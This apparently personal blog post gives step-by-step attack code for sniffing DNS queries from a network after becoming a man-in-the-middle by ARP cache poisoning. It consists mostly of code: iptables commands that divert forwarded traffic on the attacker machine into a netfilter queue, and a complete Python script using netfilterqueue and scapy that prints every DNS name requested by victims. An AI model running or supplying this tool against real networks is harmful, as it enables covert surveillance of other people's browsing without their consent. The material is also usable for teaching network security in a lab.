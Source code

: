 ```yaml
---
title: "DNS request sniffing"
date: 2023-09-09T21:43:00+07:00

---
```


After we become the [mitm][arp_cache_poisoning] we can sniff the DNS Question Record's QNAME field.  
I am using netfilterqueue here, but it could be done without it as well because we are not modifying any packets on the fly, we are only inspecting.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://bxg7.github.io/owned/arp/arp_cache_poisoning/

```sh
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```sh
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

Full code:  


```python
import netfilterqueue
import scapy.all as scapy


def process_packet(packet):
    if packet.get_payload:
        try: scapy_packet = scapy.IP(packet.get_payload())
        finally:

            if scapy_packet:
                if scapy_packet.haslayer(scapy.DNSQR):
                    qname = scapy_packet[scapy.DNSQR].qname
                    print(qname)

    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
